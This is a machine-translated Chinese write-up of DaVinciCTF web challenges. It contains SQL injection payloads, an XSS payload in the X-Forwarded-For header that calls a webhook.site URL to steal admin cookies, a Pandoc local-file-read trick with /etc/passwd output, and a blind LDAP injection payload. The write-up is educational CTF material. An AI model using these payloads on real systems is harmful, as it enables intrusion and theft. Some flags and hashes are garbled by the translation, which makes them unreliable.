# 达芬奇密码—网络挑战—详细报道

> 原文：<https://infosecwriteups.com/davincictf-web-challenges-writeup-517e77d6fa39?source=collection_archive---------1----------------------->



这个周末，我有幸扮演达芬奇 CTF 和我的团队浮士德获得第一名。这是一场非常有趣和高质量的 CTF，有一些很好的和创造性的挑战。

因为我们解决了所有的挑战，而网络挑战是我最喜欢的类别，所以我决定为他们所有人写文章。挑战是按分数排序的，可以跳过你解决的问题。

# 混淆-10 分和 318 个解决方案

> 我的密码是我的秘密。你永远找不到…
> [http://challs.dvc.tf:5555/](http://challs.dvc.tf:5555/)
> 要验证这个挑战，请输入密码作为标志。

当我们访问网站时，我们可以看到一个输入字段来提交秘密。由于我们不知道这个秘密，我们首先查看网页的源代码，看到了混淆的 Javascript。

使用 [JSnice](http://www.jsnice.org/) 我们可以稍微去掉代码的精华，看到下面的内容。

去泡沫化的 Javascript

我没有阅读所有的代码，只是尝试了第 37/38 行中 testSecret 函数的前两行。结果是国旗，别问我为什么:)

**dvCTF { 1t _ is _ n0t _ 4 _ secr3t _ 4 nym0r 3 }**



当在控制台中尝试此功能时，它会返回标志

# 认证— 10 分和 265 个解决方案

> 你能找到一种认证管理员的方法吗？
> [http://challs.dvc.tf:1337/](http://challs.dvc.tf:1337/)

第二个挑战是 SQLi 挑战。我们可以看到一个登录页面，目标是以管理员身份登录。

当然，我们可以尝试各种 SQLi 技术，但是在这里，第一个 SQLi 教科书式的利用已经起作用了:*或 1==1 -* 作为用户名，我们作为管理员登录。

在网页上，我们没有看到标志，所以我们用 *ctrl-u* 打开该页面的源代码，并在页面底部找到作为隐藏字段的标志。

```
<p style="visibility: hidden;">dvCTF{!th4t_w4s_34sy!}</p>
```

# 成员-66 分和 61 个解决方案

> 你能得到更多关于成员的信息吗？[http://challs.dvc.tf:1337/members](http://challs.dvc.tf:1337/members)

跟进认证挑战，在挑战*成员*中，我们需要获得关于成员的更多信息。这听起来又像是一个 SQLi 挑战。

当我们访问会员页面时，我们可以看到一个搜索栏和所有列出的会员。



该页面显示一个搜索字段和所有成员

如果我们将搜索查询留空，我们将看到所有成员，否则它会过滤名称。

我们尝试了一些 SQLi 有效负载，以查看简单的 UNION SELECT 能够工作并给出结果。[联合选择](https://www.w3schools.com/sql/sql_union.asp)用于合并两个或多个选择的结果。因为 x 没有给出结果，所以返回 1，1，1 作为结果，并验证 SQLi。

```
x" UNION SELECT 1,1,1; --
```



选择作为 PoC 的简单联合

考虑到这一点，我们寻找可能是 MySQL 的数据库引擎。



一个简单的联合选择泄漏数据库版本

然后我们列出了所有的表和列，看到有一个名为 *supa_secret_table* 的表带有列标志。

```
x" UNION SELECT COLUMN_NAME, TABLE_NAME,table_schema FROM INFORMATION_SCHEMA.COLUMNS; --
```


所有表和列的摘录

快速查询之后，我们收到了标志:**dvCTF { 1 _ h0p 3 _ u _ D1 DNT _ us3 _ sqlm4p }**

```
x" UNION SELECT id, flag, id from supa_secret_table --
```



接收标志的简单联合选择

# 高安全性— 200 分和 13 个解决方案

> 您现在可以看到谁试图连接到您的帐户。什么会出错？【http://challs.dvc.tf:65535/ 

当我们开始这项挑战时，已经是深夜了，我们已经很累了。我们花了一轮好觉才解决。

与上一个挑战一样，我们又有了一个登录页面。只有这一次，我们可以注册一个用户。代替路径*/成员*，这次我们有了*/安全*。安全页面显示一个空表，其中包含 IP 和时间列。

由于描述告诉我们，当有人试图登录我们的帐户时，我们可以看到，我们试图用假密码登录我们的帐户。瞧——一个条目出现在表格中，显示我的 IP 地址(这显然不是我的)和时间戳。



下表显示了试图闯入您帐户的人的 IP 地址

然后，我们尝试用 *X-Forwarded-For* 报头来更改我们的 IP 地址，并且成功了。以下请求导致 IP 1.2.3.4 出现在我们的表中。

X-Forwarded-For PoC 请求

接下来，我们在报头中放置了 XSS 有效载荷，而不是 IP，然后弹出了一个好的旧警报。

```
X-Forwarded-For: <script>alert(1)</script>
```



XSS 工作顺利

因为我们有 XSS，我们猜测一定有一个管理员用户，我们可以用我们的漏洞攻击。因此，我们向 admin 发送了与上面相同的请求和以下标题:

```
X-Forwarded-For: <script>fetch("https://webhook.site/968b79da-73da-426b-9a06-37c50cddb45a");</script>
```

有效载荷在我们这边工作，但不幸的是，我们没有收到来自管理员的任何请求。

经过一些思考和尝试不同的管理员名称，我们得出的结论是，这必须是正确的方式，必须有一个管理员用户利用，我们只是做错了一些事情。

在继续之前，我们在 Discord 上给一个 dvCTF 管理员发了消息，询问是否有一个管理员用户，如果有，他是否停机了。管理员验证了一个管理员用户存在并为他工作。

我们尝试的另一个有效载荷显示确实有一个管理员用户。使用下面的有效负载，管理用户 *admin* 从我们的 URL 请求一个图像。唯一的问题是我们不能执行 Javascript 和过滤数据。

```
X-Forwarded-For: 
```



使用我们的 URL 作为图像源，我们收到来自用户 admin 的请求

我们尝试了各种有效载荷和想法，但没有成功。最后，我们决定睡一觉，第二天早上再试试。

第二天早上，一位同事通知我们，管理员使用了 PhantomJS，正如你在用户代理中看到的，PhantomJS 不支持*获取*。我们应该尝试一下古老的 XMLHttpRequest……有时候你太累了，以至于不想想显而易见的解决方案。

最后，我们向管理员发送了一个请求，通过 X-Forward-For 头中的 XSS 加载更多的 Javascript 代码。加载的有效负载将用户的 cookies 发送回给我们。于是，我们收到了标志: **dvCTF{xss_l0ve < 3}**

这是对管理员的最后请求

这是我们网址上的有效负载



我们从管理员那里收到的请求包含该标志

# 家庭作业——400 分和 4 个答案

> 我的电脑太慢了，我做了一个网站把我的作业编辑成 pdf 格式。安全吗？
> [http://challs.dvc.tf:6666/](http://challs.dvc.tf:6666/)

这个挑战很特别。起初，它被列为 100 分，然而，一天后没有人解决它，所以管理员决定增加到 400 分。

此外，这是 EPT 团队和我的团队必须解决的最后一个挑战。谁先解决它，谁就能成为第一名，赢得 CTF 奖。这非常令人兴奋，最终，我们在 EPT 前两个小时解决了这个问题。事实上，0d12245589 甚至在我们之前就解决了这个问题，但解决的其他挑战太少，无法超越我们。

总之，回到挑战！

当跟随链接时，我们得到一个 ERR_UNSAFE_PORT。稍微搜索一下就会发现端口 6666 是不安全的，必须手动允许。在 Chrome 中，这可以通过选项`—explicitly-allowed-ports=6666`实现，在 Firefox 中，我们可以在 about:config 中添加值为 6666 的选项*。*

之后，我们可以看到一个主页，上面有一个输入框，用来输入我们的作业。


网页有一个输入字段

如果我们输入 Markdown 或 HTML，它会呈现为 HMTL。例如，在下面的示例中:

```
# Hello World
* foo
* bar
* bla
```



呈现主页的结果

我们很快发现它是用网页源代码中的 [Pandoc](https://github.com/jgm/pandoc) 渲染的，我们可以输入一个外部源来包含在渲染输出中。例如，如果我们提交一个带有受控 URL 的脚本标签，我们可以在服务器的响应中看到 URL 的内容。这意味着请求发生在服务器上，而不是客户端。 [Pandoc 文档](https://pandoc.org/MANUAL.html)将此称为`— self-contained`选项。



我们可以在服务器的响应中看到我们 URL 的 Hello Wolrd 内容

了解了这一点，我们尝试用 file:// scheme 加载本地文件。但是，服务器总是会响应一个错误。

直到一个同事尝试添加类型属性`type="text/plain"`并得到一个结果。有了这个属性和正确的来源，我们就能够排除 */etc/passwd* 。

`<script type="text/plain" src="file:/etc/passwd"></script>`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
docker:x:1000:1000::/home/docker:/bin/sh
homework:x:1001:1001:,,,:/home/homework:/bin/bash
```

从这里，我们看着`/proc/self/environ`来列出环境变量。

从环境变量中，我们可以看到一些有趣的目录来搜索标志。最后，标志在`/app/flag`:**dvCTF { r _ markd 0wn _ 1s _ c00l }**



我们收到旗帜的最后一个请求

# 轻量级——497 分，12 次解围

> 我的公司让我写一个登录页面来验证 LDAP。你能以管理员身份认证吗？
> [http://challs.dvc.tf:8080/](http://challs.dvc.tf:8080/)

在这个挑战中，我们有一个 LDAP 注入，因为挑战描述已经给了我们提示。因此，在登录页面上，我们首先尝试了一些 LDAP 注入负载，这导致了一些不错的 PHP 错误消息。



右括号中断了 LDAP 过滤器

我们可以看到右括号破坏了 LDAP 过滤器，因此我们可以注入更多的过滤器。

此外，当我们点击*我们的团队*时，网页告诉我们他们有四个用户，三个开发人员和一个管理员。



该网页有三个开发人员和一个管理员

在对给定的电子邮件和其他输入进行了一些尝试后，我们得出结论，我们可以获得三个输出:

1.  错误消息“没有这样的用户！”当请求是正确的，但是 LDAP 没有找到具有给定过滤器的用户时。比如找不到邮箱 foo@bar.de。
2.  错误消息“用户名/密码无效！”当请求正确且 LDAP 找到了用户，但我们的密码不正确时。例如，电子邮件 jdoe@dvctf.local 就可以了。
3.  错误消息“用户名/密码无效！”加上请求中断时的 PHP 错误消息。例如右括号。

此时，我们在 LDAP 请求中注入了一个新的过滤器，并强制用户描述作为概念证明。

注入的过滤器返回“无效的用户名/密码！”因为使用此过滤器找到了用户，但密码不正确

在下面的例子中，我使用打嗝闯入者一个接一个地尝试所有可能的描述。你可以看到，我之前找到了描述 *sysa* ，请求显示下一个字母是 *d* 。最后描述会是 *sysadmin* 。



在蛮力尝试对描述起作用之后，我们对 userPassword 进行了同样的尝试，因为它是 LDAP 的标准密码键。使用*请求工作正常，但是，我们尝试的任何字符都不会导致“无效的用户名/密码！”但只有“没有这个用户！”。

在互联网上搜索针对 LDAP 的 userPassword 的暴力方法导致了另一篇具有完全相同问题的文章:

[https://0xukn.fr/posts/writeupecw2018admyssion/](https://0xukn.fr/posts/writeupecw2018admyssion/)

userPassword 是一个八位字节字符串，因此不能像普通字符串一样被强行破解。但是，我们可以在 userPassword 上使用其他操作符，例如，octetStringOrderingMatch。为此，我们只需在 userPassword 后面添加 octetStringOrderingMatch 2.5.13.18 的 OID，就可以暴力破解字节值，如下面的有效载荷所示。

```
email=mkiloa@dvctf.local)(userPassword:2.5.13.18:=\7b\4d\44\35\7d\41\<add the next byte here>))%00&password=*
```

更详细的描述，你可以阅读[提到的文章](https://0xukn.fr/posts/writeupecw2018admyssion/)，他们做得比我好:)

最后，在对密码哈希进行强制后，我们得到了 MD5 哈希的 base64*{ MD5 } ABR 2 wimrer 7 gj 9 jpet 1 pa = =*，结果是 01 ba F6 a 56226 ade 47 B1 a3 f 63 a5 EB 753 c。

将这个散列提交给[https://crackstation.net/](https://crackstation.net/)，我们收到密码鸡 123。

现在我们可以登录 mkiloa@dvctf.local 查看标志 **dvCTF{th4nk_y0u_mR_UKN}**

# 摘要

这些都是网络挑战，我希望你像我喜欢 CTF 一样喜欢我的文章。这是一个伟大的 CTF，从容易到中等的难度曲线很好。

我只能推荐每个人在挑战代码在线时尝试他们的一些挑战，因为它们质量很好，非常适合初学者。我们肯定会将它们纳入我们在 CTF 为初学者举办的研讨会。

现在，有一个伟大的一天，可能会阅读我的其他写了这个 CTF 或更多我的文章。

[](https://fh4ntke.medium.com/post-office-davincictf-writeup-ab1324a65377) [## 邮局—达文西特—报道

### 与海盗的对话

fh4ntke.medium.com](https://fh4ntke.medium.com/post-office-davincictf-writeup-ab1324a65377) 

最后，我只能说感谢达芬奇密码背后的团队，感谢我的团队同事，玩得很开心。